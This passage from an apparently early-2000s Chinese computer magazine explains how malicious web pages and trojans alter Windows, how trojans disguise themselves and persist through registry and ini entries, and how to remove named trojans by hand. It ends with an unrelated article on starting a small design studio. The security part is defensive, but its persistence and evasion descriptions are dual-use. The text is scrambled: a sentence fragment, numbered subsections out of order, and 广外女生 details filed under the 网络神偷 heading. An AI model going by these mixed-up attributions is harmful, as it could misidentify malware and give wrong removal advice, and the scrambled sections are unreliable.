所以，在IE提示当前页面含有不安全的ActiveX，可能会对系统造成危害，并询问是否执行时，千万不要随便选择“是”，而且这种提示信息还可能是经过伪装的，例如：“浏览器将使用防毒功能，避免你受到恶意攻击，是否继续？”你得小心谨慎，否则损失可就无法挽回了。其实还有一种办法，那就是将你电脑中的Format.com和Deltree.exe等程序改名，使恶意网页找不到要调用的程序。

表1是对通过修改注册表设置解除恶意代码的方法的一个归纳。

### 表1 修改注册表解除恶意代码

| 注册表项 | 值项 | 设置的内容 | 恢复的方法 |
| :--- | :--- | :--- | :--- |
| HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main | Start Page | 浏览器的主页设置 | 设置为“about:blank”空白页 |
| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer | NoRun | 开始菜单上不显示“运行”命令 | 删除该值项 |
| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer | NoClose | 开始菜单上不显示“关闭系统”命令 | 删除该值项 |
| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer | NoLogOff | 开始菜单上不显示“注销”命令 | 删除该值项 |
| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer | NoDrives | 在“我的电脑”里隐藏硬盘 | 删除该值项 |
| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System | DisableRegistryTools | 禁止注册表编辑工具 | 删除该值项 |
| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer | NoDesktop | 不显示桌面图标 | 删除该值项 |
| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\WinOldApp | Disabled | 不可使用旧DOS程序 | 删除该值项 |
| HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\WinOldApp | NoRealMode | 不能进入DOS模式/窗口 | 删除该值项 |
| HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon | LegalNoticeCaption | 登录Windows窗口的标题 | 删除该值项 |
| HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon | LegalNoticeText | 登录Windows窗口的提示语 | 删除该值项 |
| HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main | Window Title | 浏览器的标题 | 删除该值项 |

### 二、 居心叵测的木马

木马的全称是“特洛伊木马”，其名称取自希腊神话的特洛伊木马记。简单来说，木马是一种基于远程控制的黑客工具。与一般病毒不同的是，它不会自我繁殖，也并不用“刻意”去感染其他文件。木马程序的最终目的是通过巧妙的伪装吸引用户下载、执行该程序，打开电脑的门户，使施种者可以任意毁坏、窃取被种者的文件，甚至远程操控被种者的电脑。对于网民来说，木马可以将你的一切秘密暴露在别人面前。

一个完整的木马程序包含两部分——服务器和控制器。植入被种者电脑的是服务器部分，而所谓的黑客正是利用控制器进入运行了服务器的电脑。运行了木马程序的“服务器”以后，被种者的电脑就会有一个或几个端口被打开，使黑客可以利用这些打开的端口进入电脑系统，安全和个人隐私也就全无保障了(如图11)!

## （一）中了木马有何症状

如果你的计算机有以下表现，就要考虑是否染上木马了。

- 1. 计算机有时死机，有时又重新启动。
- 2. 在没有执行什么操作的时候，却在拼命读写硬盘。
- 3. 系统莫明其妙地对软驱进行搜索。
- 4. 没有运行大的程序，而系统的速度越来越慢，系统资源占用很多。
- 5. 用 Ctrl + Alt + Del调出任务表，发现有多个名字相同的程序在运行，而且可能会随时间的增加而增多。

特别是在连入 Internet或是局域网后，如果你的机器有这些现象，就更应该小心从事了。由于木马程序的破坏通常需要里应外合，大多数的木马不如病毒般可怕。即使运行了，也不一定会对你的机器造成危害。不过，潜在的危害更大。比如，你的上网密码有可能已经跑到别人的信箱里了!

## （二）木马是如何传播的

木马的传播方式主要有两种，一种是通过 E-Mail，控制端将木马程序以附件的形式夹在邮件中发送出去，收信人只要打开附件系统就会感染木马。另一种是软件下载，一些非正规的网站以提供软件下载为名义，将木马捆绑在软件安装程序上，下载后只要一运行这些程序，木马就会自动安装。

## （三）木马的伪装

鉴于木马的危害性，很多人对木马知识还是有一定了解的，这对木马的传播起了一定的抑制作用。对于木马设计者来说，这是他们所不愿见到的，因此他们开发了多种功能来伪装木马，以达到降低用户警觉、欺骗用户的目的。

### 1. 修改图标

当我们在 E-Mail的附件中看到文本文件的图标时，绝大多数的人恐怕都会认为这是个文本文件呢！但是，不得不告诉你，这也有可能是个木马程序。现在很多木马可以将服务端程序的图标改成 HTML、TXT、ZIP、JPG等文件的图标，这就使得它有相当大的迷惑性。不过，这种文件的后缀名还是 EXE的，所以你可以通过鼠标右键点开文件“属性”来查看。

### 2. 捆绑文件

这种伪装手段是将木马捆绑到一个安装程序上。有些软件可以将两个可执行文件进行捆绑，当执行打包后的程序时，实际上是将两个程序同时执行。

### 3. 出错显示

许多人都知道，如果打开一个文件没有任何反应，这很可能就是个木马程序。而现在的木马提供了一个叫做“出错显示”的功能，当用户打开木马服务端程序时，会弹出一个错误提示框，比如缺少它当然是假的，错误内容可自由定义，大多会定制成诸如“文件已破坏，无法打开的”之类的信息。当用户信以为真时，木马却悄悄侵入了系统。

### 4. 定制端口

很多老式的木马端口都是固定的，这给判断是否感染了木马带来了方便。只要查一下特定的端口就知道感染了什么木马，所以现在很多新式的木马都加入了定制端口的功能，控制端用户可以在 1024～65535之间任选一个端口作为木马端口(一般不选 1024以下的端口)，这样就给判断所感染木马类型带来了麻烦。

### 5. 自我销毁

这项功能是为了弥补木马的一个缺陷。我们知道，当服务端用户打开含有木马的文件后，木马会将自己拷贝到 Windows系统文件夹中(C：\Windows或 C：\Windows\System目录下)。一般来说，原木马文件和系统文件夹中的木马文件的大小是一样的(捆绑文件的木马除外)，那么中了木马的朋友只要在近来收到的信件和下载的软件中找到原木马文件，然后根据原木马的大小去系统文件夹找相同大小的文件，判断一下哪个是木马就行了。而木马的自我销毁功能是指安装完木马后，原木马文件将自动销毁，这样服务端用户就很难找到木马的来源，在没有查杀木马的工具时，就很难删除木马了。

### 6. 木马更名

安装到系统文件夹中的木马的文件名一般是固定的，那么只要根据一些查杀木马的文章，按图索骥地在系统文件夹查找特定的文件，就可以判断中了什么木马。所以现在有很多木马都允许控制端用户自由定制安装后的木马文件名，这样就很难判断所感染的木马类型了。

## （四）如何查杀木马

木马被激活后，进入内存，并开启事先定义的木马端口，准备与控制端建立连接。这时服务端用户可以在MS-DOS方式下，键入Netstat -an查看端口状态。一般个人电脑在脱机状态下是不会有端口开放的，如果有端口开放，你就要注意是否感染木马了。在上网过程中要下载软件、发送信件、网上聊天等必然打开一些端口，下面是一些常用的端口（见表2）。

### 表2 常用端口

| 端口号 | 名称 | 作用 |
| :--- | :--- | :--- |
| 1-1024 | 保留端口 | 专供一些对外通讯的程序使用，如FTP使用21，SMTP使用25，POP3使用110等。只有很少木马会用保留端口作为木马端口。 |
| 1025以上的连续端口 | | 在上网浏览网站时，浏览器会打开多个连续的端口下载文字、图片到本地硬盘上，这些端口都是1025以上的连续端口。 |
| 4000 | | ICQ、OICQ等即时通信软件常用的端口。 |
| 6667 | | IRC的通讯端口 |

除上述端口基本可以排除在外，如发现还有其他端口打开，尤其是数值比较大的端口，那就要怀疑是否感染了木马。

### 1. 利用杀毒软件

由于很多新手对安全问题了解不多，所以并不知道自己的计算机中了木马该怎么样清除。这时如果能利用杀毒软件会是一个比较好的选择，比如瑞星、VRV、金山毒霸等。但是，杀毒软件并不一定能保证查杀这种病毒，记得的冰河2002版刚出现的时候，很多杀毒软件都查不出来，像熊猫杀毒软件、Mcafee杀毒之星，在许多评测中评分很高，但是对于国内的很多最新木马都无能为力，所以个人认为还是选择国内的杀毒软件更为实际。像VRV杀毒软件（光盘中有其正式版）、金山毒霸、KV3000都仅在1～2天后就能查出该病毒的。

### 2. 手工清除

除了依靠杀毒软件外，我们还可以自己动手查杀木马程序。其实方法很简单，只要了解一些木马的工作原理，就足以让我们对付常见的木马程序了。

木马程序会利用每次系统启动时Windows自动加载应用程序的方法来加载服务器端程序。有些木马甚至会隐藏在Win.ini、System.ini、注册表等极为隐蔽的地方。下面，让我们来具体看看“木马”是怎样自动加载的。

- （1）点击“开始”→“运行”，输入Msconfig，调出系统配置使用工具。利用这个工具，我们可以清楚地了解启动时执行的程序有哪些（如图12）。

- （2）Config.sys; Autoexec.bat属于系统配置文件，都是DOS时代的产物了。自从进入了Windows时代后，它们的作用就不大了；System.ini项，这是系统启动时要加载的系统服务程序。在System.ini文件中，在[BOOT]下面有个“Shell = 文件名”。正确的文件名应该是Explorer.exe，如果不是Explorer.exe，而是“Shell= Explorer.exe程序名”，那么后面跟着的那个程序就是木马程序，就是说你已经中木马了（如图13）。

- （3）再来看Win.ini项目。在[Windows]下面，“Run=”和“Load=”是可能加载木马程序的途径，必须仔细留心它们。一般情况下，它们的等号后面什么都没有。如果发现后面跟有路径与文件名不是你熟悉的启动文件，那你的计算机就可能中上木马了。当然你也得看清楚，因为好多木马，如AOL Trojan木马，把自身伪装成Command.exe文件等和系统文件类似的名称(正确的是Command.com)，如果不注意是不会发现它的真面目的(如图14)。

- (4)点开“启动”项，查看键值中有没有自己不熟悉的自动启动文件(如图15)。

**小提示：**一定要注意那些扩展名为EXE的文件，木马程序多数都是以EXE为扩展名的。

当然，在注册表中还有很多地方可以隐藏木马程序，如HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run和HKEY_USERS\Software\Microsoft\Windows\CurrentVersion\Run都有可能，最好的办法就是在HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run下找到木马程序的文件名，再在整个注册表中搜索即可。

- (5)知道了木马的藏身之处，查杀木马就变得很容易了。如果发现有木马存在，最安全也是最有效的方法就是马上将计算机与网络断开，防止黑客通过网络对你进行攻击。然后编辑Win.ini文件，将[WINDOWS]下的“Run = ‘木马’程序”或“Load = ‘木马’程序”更改为“Run=”和“Load=”;编辑System.ini文件，将[BOOT]下面的“Shell=‘木马’文件”，更改为“Shell=Explorer.exe”;在注册表中，用Regedit对注册表进行编辑，先在HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run下找到木马程序的文件名，再在整个注册表中搜索并替换掉该木马程序。

**小提示：**有时还需注意的是，部分木马程序并不是直接将HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run下的“木马”键值删除就行了。像BladeRunner木马，如果你删除它，木马会立即自动复制。你需要记下木马的名字与目录，然后退回到MS-DOS下，找到此木马文件并删除。重新启动计算机后再回到注册表中将所有木马文件的键值删除。至此，才能算大功告成。

#### (五)典型木马程序的分析与查杀

### 1. 网络神偷

(1)基本介绍:它可以实现对本地及远程驱动器进行:新建文件、新建文件夹、查找文件、剪切、复制、粘贴(包括:本地文件操作、上传、下载、同远程主机的文件复制与移动)、本地运行、远程运行、重命名、删除、查看、修改驱动器属性、修改文件属性等操作，并且所有操作均支持多选及文件夹操作。

(2)感染平台:Windows95/98/Me/2000/NT

(3)原理分析:网络神偷服务端运行原理跟一般远程控制程序不同，它利用“反弹端口”原理，服务端(被控制端)主动连接客户端(控制端)，如图16、17。为了更加隐蔽，监听端口一般开在80(提供HTTP服务的端口，我们平常浏览网页用的端口)。这样，即使用户使用端口扫描软件检查自己的端口，也难以发现。而控制端发给服务端的数据是通过一个第三方的空间来实现的，一般选一个主页空间，控制端通过FTP写主页空间上的一个文件，而服务端定期用HTTP协议读取这个文件的内容。

容，当发现控制端让自己开始连接时，就主动连接。这样，控制端就可以穿过防火墙，甚至还能访问局域网内部的电脑。

可以全屏操作对方的鼠标(包括单击，双击，右键，拖动等)。

④在其他方面，广外女生还具有远程任务管理、邮件IP通知、邮件服务等功能。

广外女生与其他同类软件相比，其主要特点是服务端程序体积小(只有96KB)；服务端占用系统资源少(最多时只占用3MB的内存)；隐蔽性好，不容易被发现。能利用Windows的漏洞使国内流行的“天网防火墙”和“金山毒霸”失去作用；注册表编辑及任务管理界面直观，易于操作。仔细看看就可以看出，它所具有的功能和国产的优秀木马“冰河”相比上只多了远程注册表操作和可以关闭一些网络安全防护软件的两样特性。


## (2)工作流程

- ①每5分钟循环检测一次天网防火墙或金山毒霸是否打开，若有的话就用进程Kill(天网防火墙被Kill后可以重新运行)。
- ②感染后程序驻留文件为C:\Windows\System\Diagcfg.exe。
- ③使用TCP通讯协议6267端口。
- ④最经常被改动的注册表项有如下三个。

```
★HKEY_CLASSES_ROOT\exefile\shell\open\command
★HKEY_LOCAL_MACHINE\Software\CLASSES\exefile\shell\open\command
★HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices
```

(4)查杀工具:金山公司专门推出了查杀网络神偷的工具软件，下载地址是:http://www.iduba.net/download/other/tool_010828_Nethief.htm。

## 2.广外女生

### (3)手工清除方法

“广外女生”所采用的技术并不高明，甚至仅作为一个木马而言，它的功能也太弱。但是由于其顶着“专门针对金山毒霸和天网防火墙，使之不能运行”的帽子，竟然也闯出了不小的名头。

广外女生是广东外语外贸大学“广外女生”网络小组的处女作。作为一个远程控制软件，它可以运行于Windows 98/Me/NT/2000或已经安装Winsock 2.0的Windows 95/97上。

- ①由于该木马程序运行时无法删除该文件，因此启动到纯DOS模式下，找到System目录下的Diagcfg.exe，删除它。
- ②由于Diagcfg.exe文件已经被删除了，因此在Windows环境下任何.exe文件都将无法运行。我们找到Windows目录中的注册表编辑器Regedit.exe；将它改名为Regedit.com。
- ③回到Windows模式下，运行Windows目录下的Regedit.com程序(就是我们刚才改名的文件)。
- ④找到HKEY_CLASSES_ROOT\exefile\shell\open\command，将其默认键值改成"%1" %*。
- ⑤找到HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices，删除其中名称为Diagnostic Configuration的键值。
- ⑥关掉注册表编辑器，回到Windows目录，将Regedit.com改回Regedit.exe。

### (1)基本功能介绍

- ①在文件管理方面，广外女生可以上传、下载、删除、改名、设置属性、建立文件夹和运行指定文件等功能。
- ②在注册表操作方面，广外女生可以全面模拟Windows注册表编辑器，让远程注册表编辑工作有如在本机上操作一样方便。
- ③在屏幕控制方面，广外女生可以自定义图片的质量来减少传输的时间，在局域网或高网速的地方还可以全屏操作对方的鼠标(包括单击，双击，右键，拖动等)。

## （六）其他常见木马程序的手工清除方法

1. BO2000

查看注册表\HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunService中是否存在名为Umgr32.exe的键值。有则将其删除，重新启动电脑，再将\Windows\System中的Umgr32.exe删除。

2. NetSpy

查看注册表\HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run中是否有Spynotify.exe和Netspy.exe。有则将其删除,重新启动电脑后将\Windows\System中的相应文件删除。

3. Happy99

此程序运行时, 会在打开一个名为Happy new year 1999的窗口, 并出现美丽的烟花, 它会复制到Windows主文件夹的System目录下, 更名为Ska.exe, 创建文件Ska.dll, 同时修改Wsock32.dll, 将修改前的文件备份为Wsock32.ska, 并修改注册表。另外,用户可以检查注册\HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce中有无键值Ska.exe。有则将其删除, 并删除\Windows\System中的Ska.exe和Ska.dll两个文件, 将Wsock32.ska更名为Wsock32.dll。

4. NetBus

在MS-DOS方式下用Netstat-an命令查看12345端口是否开启, 在注册表相应位置中是否有可疑文件。首先清除注册表中的NetBus的主键, 然后重新启动电脑, 删除该可执行文件即可。

5. Asylum

这个木马程序修改了System.ini和Win.ini两个文件, 先查一下System.ini文件下面的[BOOT]项, 看“Shell = Explorer.exe”, 如不是则删除它, 修改成Shell = Explorer.exe, 并记下原来的文件名以便回头去在纯DOS下删除它。再打开Win.ini文件, 看看在[windows]项下的“run=”后面是不是有什么文件名, 一般情况下是没有任何加载值的, 如果有就记下它, 以便回头来在纯DOS下删除相应的文件名。

6. 冰河

用纯DOS启动进入系统(以防木马的自动恢复), 删除你安装的Windows下的System\Kernel32.exe和System\Sysexplr.exe两个木马文件。如果系统提示你不能删除它们, 则是因为木马程序自动设置了这两个文件的属性,我们只需要打开它们的隐藏、只读属性,方法是键入如下命令:Attrib -h -r Kernel32.exe或Sysexplr.exe即可。删除后进入Windows系统注册表中，找到HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run和HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices两项,然后查找Kernel32.exe和Sysexplr.exe两个键值。再找到HKEY_CLASSES_ROOT\txtfile\open\command,看在键值中是不是已改为“Sysexplr.exe %1”,如是改回“notepad.exe %1”。

7. GOP

GOP木马会在注册表的HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run主键下添加一个键值让自己自动运行。所以, 首先要禁止该项。点击“开始”→“运行”, 输入Msinfo32, 查看其中的“软件环境”→“正在运行的任务”, 如果发现哪个项目只有程序名和路径, 而没有版本、厂商和说明, 你就应该提高警惕了。一般来说, GOP木马在这里显示的版本为“不可用”。现在运行Regedit, 进入到HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run主键, 记住刚才那个身份不明的运行项目, 找到后删除该键值。然后关闭计算机, 稍候启动计算机。还记得刚才查看到的项目路径吧? 那就是木马的程序的藏身之处! 接下来的任务是删除木马程序本身。

以上介绍给大家的是一些针对没有杀毒软件的朋友们的手动清除木马的方法, 不过如果你有杀毒软件


或者相关查杀工具将会更省事。

#### (七)如何防范木马

防范木马的最佳办法是安装杀毒软件，并使用个人网络防火墙，如天网个人防火墙或者东方网盾个人防火墙。它们采用独特的“内墙”方式——应用程序访问网络规则，专门对付存在于用户计算机内部的各种不法程序对网络的应用。当计算机内部的应用程序访问网络时，必须经过防火墙内墙的审核。合法的应用程序被审核通过；非法的应用程序将会被天网防火墙所拦截(如图18)。

### 三、屏蔽攻击

#### (一)邮件攻击

邮件攻击是指黑客通过电子邮件的方式向你发送木马、病毒或者一段带有攻击特征的特定 HTML 代码，如通过一段特定的 HTML 代码则可以在你打开邮件时把你的主机信息记录、发送给攻击者。利用 IE 一些版本的漏洞，甚至可以通过这些脚本漏洞对你的系统文件进行读写操作。

邮件攻击的另一种方式是不直接攻击电子邮件本身，而是通过把电子邮件当成一种传播载体来传播病毒和木马。著名的“爱虫”病毒即是通过电子邮件传递的，它会打开感染主机的 Outlook 邮件地址薄，然后把自己发送给这上面的所有地址。当其他人接到这个电子邮件时，会以为是好友发过来的文件，打开它，结果又进行第二轮传输，周而复始……这也就是爱虫感染了全球成千上万台机器的原因。

由于邮件采用明文传输，所以在经过各个路由器时很容易被黑客截获，这就好比你把东西交给邮局来邮寄，你也不知道经过几个邮局中转后，是否有人截取并且看过了它。邮件攻击是目前黑客传播木马和病毒的主要方法。

通常来说，如果非常重要的文件和信息，一定需要首先经过数字加密认证发送，这样即使攻击者截获了你的数据，他们也无法打开。或者打开只能得到一堆乱码。在目前邮件传输协议还不完善的情况下，我们建议对于十分重要的商业文件，如合同、机密商业信息，尽量不要采用普通的邮件传输方式。

如果在局域网环境，如在网吧、学校等公用机房，最好通过 WWW 的方式收发信件，不要采用 POP3 和 SMTP 收发信。因为在局域网中，数据包的传输是可以被局域网中的其他机器所监听的，由于电子邮件均是以明码的形式传送，通过 Nettray 等数据包监视软件，可以轻而易举从监视的数据包里面得到你邮箱的密码。

#### (二)IP攻击

由于 Windows 系统的不完善性，很多“炸弹”软件会利用 Windows 的漏洞，对用户的 IP 地址进行多种攻击。对付这种炸弹最有效的方法是安装 Windows 系统的补丁并使用防火墙。

#### (三)两款免费防黑工具

- 1. 国产防黑新锐天网防火墙

天网防火墙根据最新的国际网络安全标准开发。采用分布式的监控全面对端口进行实时管理和察看，并且有强大的安全系数评估系统！功能强大，是新一代防黑墙产口的典范！


- 2. 网络安全保护神ZoneAlarm

适合个人用户使用的网络防火墙有不少，例如 LockDown2000、Norton Personal Firewall、Conseal PC Firewall、国产的天网等，但是，这些软件有些太过肥大，有些不能用于 Windows NT/ Me 等环境，有些要收取注册费用。

这里，笔者给各位介绍一款小巧、免费、高效的个人网络防火墙——它可以监测你的机器上所有的 Internet ZoneAlarm。软件只有 1.5MB，而且免费(只要我们在安装的时候选择的是个人用户，你可以免费使用、免费升级)。你可以控制每一个本地程序对 Internet 的存取，也能够管理所有通过 Internet 对你机器进行的访问，控制这些程序对你的访问权限。有了 ZoneAlarm，你就能在保证内部系统安全的前提下安全、高速地访问互联网上的资源了。

> (文/刘金英 Rainstar)


# 创建个人工作室 P 381

“人生的机会就在你自己手中”，一台电脑加上几台外设就可以实现创业的梦想。本专题从如何办执照，如何准备好软、硬件，如何选择办公场所以及如何开拓业务等方方面面，为梦想创业者提供了一个有效的创业方案。


# 印前制作基础入门 P384

创业者需要对本行业有一定的了解，本专题即为准备进入出版、设计的行业读者讲解了必须要了解的一些印前基础知识。

# 图像扫描技术讲解 P388

图像扫描也是个人工作室一个不错的业务来源，本专题通过对扫描原理的详细讲解及实例示范，使读者能轻松掌握图像扫描技术。

# 图解包装盒的制作 P393

以图解的方式形象地讲述了包装盒制作的完整过程，读者可举一反三，完成其他类型的外包装的设计制作。

# 图书排版流程 P398

本专题简洁明了地介绍了图书排版的整个流程，为希望深入学习图书排版的个人创业者指明了一条可行的学习路径。

## 创建个人工作室

电脑与网络的发展使更多的人有机会进入创业者的行列，也许只需要一台电脑加一些其他的设备，就可以开办一家自己的小公司，实现自己的梦想了。本期“职场培训”栏目将为大家介绍一个跟电脑有关，只要具备一定的专业知识就可以实现的创业方案——个人工作室。当然，以下内容仅供参考，具体事宜还需自己去多方了解。

### 一、执照问题

如果资金实在有限，可以直接去申请注册资金为3万元左右的一个打字服务中心执照（具体事项可咨询当地工商部门），一般两、三个月就能批下来。如果还想做些艺术设计之类的工作，也可以申请成文化交流中心、或者是XX工作室等，具体要看当地工商部门对此类行业的规定。在此要说明的是，文化交流中心理论上只能做服务，不能做销售，但是可以从事一些与文化交流相关的内容，这里所涉及的范围就很广了，如展览设计等。

如果资金比较宽裕，可以申请注册资金在10万元以上的公司，申请了这样的营业执照，业务范围就广泛多了，有利于将来的业务开展。

如果对申请执照的流程一点也不了解，可找一些有此经验的朋友帮忙，或咨询当地的工商部门，再或者找一些专门办理执照申请的公司，一般400元左右的代办费是正常的。

### 二、税费与发票问题

作为个人工作室，一般就不需要财务人员了，找个人兼着记账或者自己当出纳就行。如果要开支票，就花2000元去银行开一个户头，然后到银行用现金换支票。如果公司注册资金多的话，则能够方便地在银行拿到一些空白支票。

税收对于个人工作室来说并不是很大的负担，因为营收能力差，所以税也没有多少。不过根据我国《税收征管法》规定，纳税人必须在法律、行政法规规定或者税务机关依照法律、行政法规的规定确定的期限内缴纳税款，否则税务机关除责令限期缴纳外，要按日加收千分之二的滞纳金。也就是说，税应该每月去交，即便没有收入，也应该去税务局进行申报，不能等攒得多一些一块交。

### 三、准备好硬件

#### (一)电脑

一般打字业务用，只要配一台价值在5000元以下的电脑即可。如果业务量很大，配置两台电脑也是比较划算的。因为两台电脑只需要一个打印共享器就可以共用一台打印机了。

如果还要做图形设计之类的业务，则至少需要一台价值在6000~7000元配置的PC，或者买一台二手苹果电脑（15000元左右，全新的就需要20000~30000元左右了）。


购买电脑时除价格外，还有几点需要注意。一是内存，虽然说128MB内存已经够用了，但最好有256MB，如果可能512MB更好，也为以后进行图形设计打下物质基础，而且现在的内存也很便宜了；二是注意主板有无支持USB接口，因为现在越来越多的外部设备需要USB接口，如果主板不支持USB接口，对以后的工作可能会有影响；三是显示器一定要买好一点的，因为作为电脑从业人员，一天中的大部分时间都是盯着显示器度过的。

#### （二）打印机

一定要买激光打印机，因为速度快、成本低、打印出来的表格也漂亮。市场有 2000 多元钱的，如联想、方正推出的一些品牌的打印机。如果有钱，当然可以配合 HP 的激光打印机，一个硒鼓可能是 300～400 元左右，正常业务量下能使用半个月左右。


如果是做图形设计，最好配合彩色喷墨打印机，推荐配置在 2000 元左右的 Epson 彩色喷墨打印机。

#### （三）复印机

如果拿到了特许经营的牌子，就可以考虑购置一台复印机了，建议不要图便宜买国产的。30000～5000 元配置的 Canon 复印机用于经营还是比较合算的。还建议你配置一台小型但是质量高的复印机用于对复印要求较高的业务，这种业务的特点就是业务量少，复印、装璜需要精美（价钱当然也要高了）。

#### （四）扫描仪

在图形设计业务中，扫描仪是一个必备的外设，推荐买一款价位在 3000 元左右的。扫描仪及扫描技术，请参阅本栏目中的另一个专题《图像扫描技术讲解》。

### 四、准备好软件

一般个人工作室，为了适应活件的不同阶段，需要购置多种不同类型的软件，并且要熟练掌握它们的使用方法。下面大致列出几种主要的软件类型，可能各个人工作室业务的重心不同，侧重点也会不一样。

#### （一）字处理软件

字处理软件顾名思义是用来输入和编辑文本的。在图书杂志的排版过程中需要处理大量的文本，而这些文本一般不是直接在排版软件中输入的（那样会累坏的），而是先通过字处理软件完成，然后再在排版软件中导入。不过现在大多数的字处理软件不仅能做文字处理了，对普通的图书杂志排版也能应付自如。

国内最常用的字处理软件有两种，微软的 Word 和金山的 WPS。虽然也有一些其他的字处理软件运行更快、更稳定，占用资源也更少，但是想要保证活件安全顺利地完成，有时不得不跟随着主流的选择。

#### （二）图像编辑软件

现在出版的图书杂志，图文并茂是最基本的要求。所以除了文本的处理，还要经常处理图像文件。而图像编辑软件中，Photoshop 可谓是独领风骚，是排版设计必备的软件之一。当然，可以有许多其他的选择，如 CorelDRAW Paint、Paint Shop Pro 等。


#### （三）矢量绘图软件

矢量图的最大优点就是可以随意缩放，而不用担心图像会产生锯齿。它主要由线条和填充组成，修改起来也非常方便，直接拖动线上的锚点就可重新编辑了。矢量绘图可以选择的软件很多，Illustrator、FreeHand、CorelDRAW 等都是非常优秀的矢量软件。具体选用哪一款，就看你的喜好和习惯用了。

#### （四）组版软件

组版软件就是把文字、图像、矢量图等元素有机地结合起来，然后打样出胶片，送交印刷厂印刷。国外比较流行的组版软件有 Quark XPress、PageMaker 等，而在国内比较流行的软件则是 PageMaker、飞腾、WITS、方正书版系统等。这几款软件中，必须要精通一门，并对其他几款软件也要有一定的认识才行。

#### （五）字库

如果用方正隶书排版了一种字体，而出胶片的地方是汉仪的字体系统，那最终的版式就有可能走形。这是印前工作中非常忌讳的一件事情。应该管理好自己的字库文件，打样出片的时候询问对方有没有你所使用的字库，如果没有的话就得想办法解决了。

### 五、选择办公场所

在初期，需要一个至少十平米左右的办公地点，基本上吃住办公就都可以解决了，这类业务大都不分昼夜，必须有足够的精力与心理准备。等公司业务与规模发展了，租房就要有诀窍了。做这行基本上都要有一两个关系非常好的客户。如果这些客户的业务量很多，可以把办公地点设在离这些客户不远的地方。一些规模较大的公司或厂商，为他们服务的广告设计公司都在离他们办公地点非常近的地方，这样可以节省很多费用，而且利于与客户沟通。

### 六、人员

理论上讲，个人工作室至少需要两名工作人员。一名电脑设计人员，一名对外联系人员。如果只有两个人，那么作为老板的你，一定要是名电脑设计人员，可以外招一名负责跑外联系的人员，工资三、四百元就有人做。作为这种个人工作室，最重要、最核心的人员就是电脑设计人员。所以作为老板的你，最好是一个设计高手，才能节约成本，又不至于外行。

### 七、收入

下面的一些价格行情仅供参考，可以根据自己所处的环境及实际的情况进行调整。

- （一）打字

一般一篇 A4 纸打字加排版收费 8 元左右，B5 纸大概6元左右，这可比按字数收费值，因为一般一页平均在三、四百字左右。另外不要忽略那些家里有电脑但没有打印机的人。他们可能是自己录入完后，只是到你这里来打印，你可以帮助他将版式调整得美观一些，收费2~4元比较合适。另外要特别注意外来软盘的安全问题，要先杀毒，别因小失大。

- （二）封面设计

如果有很高的设计才能，最好多接一些平面设计的业务。因为打字是很辛苦的体力劳动，而设计则是在出售创意，技术含量高，收费会高一点。一幅 A4 幅面的设计作品，一般在 800 元钱左右。

- （三）图书排版

连录带排，按16开一版来计算，黑白版的收费在10元左右，数理化等有较多公式的版面则视难度增加费用，约12元左右。如果还要求打样、出胶片的，可将打样、出胶片的成本算进去之后，再适当增加一些费用。如果排的是全彩版，16开一个版约40元左右。

- （四）复印

复印一张 A4、B5 纸收 0.4~0.5 元比较合适。

- （五）其他业务

据笔者了解，只开展打字、复印业务，可能利润会少一些。在大街上能看到的那些打字、复印门脸，往往顺带着做一些刻字、刻铜牌、设计装潢等业务。业务对象可以扩展为名片设计、制作简历、制作合同、制作饭馆的菜单、歌厅的歌单等。不要忽视假日消费，比如过年了，如果能设计出一些打印精美的贺年片，会增加很多学生客户的。暑假时，如果业务不忙，还可以利用空闲的机器，面对小学生开展一些小型培训等业务。关键是要自己想出更好的点子来。

### 八、经验心得

- （一）经验至上

做这个行业，电脑技术应用与从业经验是非常重要的。例如一个收入 200 元左右的业务，一个新手可能要做一天，一个熟练人员可能只需要20分钟。活多时，干得越快接的活就越多，技术水平越高，单位成本就越低。

- （二）客户的主观好恶性

因为这项工作不是纯粹的艺术创作，所以满足客户的要求就非常重要。很多客户提出的意见，由于他并不具备这个专业的鉴赏能力，可能一句话就会抹杀掉你非常得意的作品，这也是经常的事。摆出笑脸，重新做吧。

- （三）欺骗性

有不少客户，要求你先制作，满意后才付款。而有的客户，拿走了你的设计样本，却一分钱不付。其实这种设计也属于知识产权，但是有时非常不好确定。所以对待新客户及大项业务，一定要签好业务合同，收取一定的定金。不过为了同行竞争，需要争取大客户，很可能就要冒一些风险。这也是开展此项业务的一个难点，需要大家在实践中好好把握住机会与风险的取舍。

- （四）客户发展方向

业务的拓展，很大一部分来自于客户之间的相互介绍，也就是口碑问题。当然展览会也可以多多参加，留下你的名片及公司的资料。做这行，关键在于关系，这就需要长时间地摸索与努力了。

> （文/醉心客 柳絮飞）

## 印前制作基础入门

